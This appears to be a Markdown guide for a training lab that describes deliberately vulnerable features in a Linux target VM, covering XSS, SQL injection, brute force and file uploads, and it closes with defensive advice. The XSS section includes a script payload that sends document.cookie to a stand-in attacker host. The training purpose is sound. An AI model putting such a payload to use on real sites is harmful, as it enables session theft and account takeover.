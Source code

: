 # Linux VM Vulnerabilities

This document highlights the deliberate vulnerabilities included in the Linux target VM. Each vulnerability is presented with a detailed explanation, real-world relevance, and educational purpose.

---

## Cross-Site Scripting (XSS)
**Description:** Cross-Site Scripting (XSS) happens when an application includes untrusted user input in pages sent to other users without proper validation or output encoding. Attackers inject client-side code (usually JavaScript) that the victim’s browser executes in the context of the site. Because the code runs in users’ browsers, XSS can steal session tokens, perform actions on behalf of users, display spoofed UI, or be chained with other flaws.   
**Educational Purpose:** Students will exploit stored, reflected, and DOM-based XSS in controlled exercises to learn how payloads execute in victims’ browsers, how data (cookies, localStorage, form values) can be exfiltrated, and how to defend against these attacks via context-aware output encoding, input validation, and Content Security Policy (CSP).  
**Real-World Relevance:** XSS is a long-standing, common web vulnerability (historically in the OWASP Top 10). While it typically targets users rather than servers directly, consequences include account takeover, phishing, and platform abuse. High-profile incidents (e.g., the 2005 MySpace “Samy” worm and the 2014 TweetDeck XSS issue) demonstrate rapid propagation and real impact on large user bases.  

**Example:** A comment field accepts HTML without encoding. An attacker posts:  
'''html
<script>fetch('https://attacker.example/steal?c='+encodedURIComponent(document.cookie))</script>
'''  
When other users load the comment, their browsers execute the script and send session cookies to the attacker, enabling hijack of user accounts.  

---

## SQL Injection
**Description:** SQL injection occurs when user input is improperly sanitized, allowing attackers to manipulate backend database queries.  
**Educational Purpose:** Students will exploit SQL injection to retrieve sensitive information from the database and understand how unsanitized input can be dangerous.  
**Real-World Relevance:** SQL injection remains one of the most common web vulnerabilities. High-profile breaches, including credit card and personal information leaks, often result from SQL injection attacks. Understanding this vulnerability teaches students the importance of parameterized queries, input validation, and secure coding practices.

**Example:** Attackers may enter malicious SQL statements in a login form to bypass authentication or extract sensitive data.  

---

## Brute Force Attack
**Description:** Brute force attacks systematically attempt all possible password combinations to gain unauthorized access.  
**Educational Purpose:** Students will attempt login on weak accounts, gaining insight into why strong, unique passwords are critical.  
**Real-World Relevance:** Weak passwords or default credentials are often the first point of exploitation in server breaches. Organizations such as healthcare providers and small businesses have suffered ransomware or data theft because attackers successfully guessed weak passwords.

**Example:** Using automated tools, an attacker could compromise SSH access by trying thousands of passwords until one succeeds.

---

## File Upload Vulnerability
**Description:** Unrestricted file uploads allow attackers to place malicious files on the server.  
**Educational Purpose:** Students will explore file upload mechanisms and observe how improper validation can lead to remote code execution.  
**Real-World Relevance:** Many content management systems or web applications have suffered from malware installation, website defacement, or full server compromise due to unvalidated file uploads.

**Example:** Uploading a web shell that allows an attacker to execute commands remotely, gain administrative privileges, or pivot to other systems on the network.

---

## Key Takeaways
- Always validate and sanitise user inputs according to the expected context.  
- Apply context-aware output encoding (HTML, attribute, JS, URL).  
- Use parameterised queries / prepared statements for DB access.  
- Enforce strong authentication, rate-limiting, and MFA where practical.  
- Restrict upload types, check file contents, and store uploads outside the web root.  
- Implement security headers (CSP, X-Content-Type-Options) and HttpOnly/Secure cookie flags.  
- Regularly test with automated scanners and manual review; learn to think like an attacker to design better defenses.
